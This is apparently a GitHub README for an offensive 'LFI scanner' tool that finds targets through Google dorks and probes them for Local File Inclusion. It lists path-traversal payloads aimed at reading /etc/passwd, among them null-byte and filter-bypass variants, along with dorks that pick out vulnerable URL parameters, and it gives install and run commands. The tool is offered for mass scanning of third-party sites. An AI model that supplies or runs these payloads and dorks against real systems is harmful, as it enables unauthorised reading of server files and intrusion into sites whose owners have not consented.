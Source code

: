 <a name="readme-top"></a>


<br />
<div align="center">
  <a href="https://github.com/othneildrew/Best-README-Template">
    <img src="https://i.imgur.com/PlZ6PEH.png" alt="Logo">
  </a>

  <h3 align="center">FOX LFI SCANNER AUTOMATIC</h3>

  <p align="center">
    The FOX LFI Scanner is a powerful tool designed for scanning Local File Inclusion vulnerabilities.
  </p>
</div>

## Google Dork
Automatically search for vulnerabilities using google dork

```bash
/db/dorks.txt
```
## Payloads
This uses separate payloads, if you want to add a custom payload, go to:

```bash
/db/payloads.txt
```

```bash
/etc/passwd
../../../../../../../../../../../etc/passwd
/../../../../../../../../../../../../etc/passwd
/..././..././..././..././..././..././..././etc/passwd%00
../../../../../../../..//etc/passwd
```

### Dork

```bash
inurl:/squirrelcart/cart_content.php?cart_isp_root=
inurl:index2.php?to=
inurl:index.php?load=
inurl:home.php?pagina=
```
## Installation

```bash
https://github.com/sandiskyy/Lfi-fox.git
cd Lfi-fox
pip3 install -r requirements.txt
```

## Usage
```bash
python3 Lfi-fox.py
```
## Note
Using Bing Still Not Working


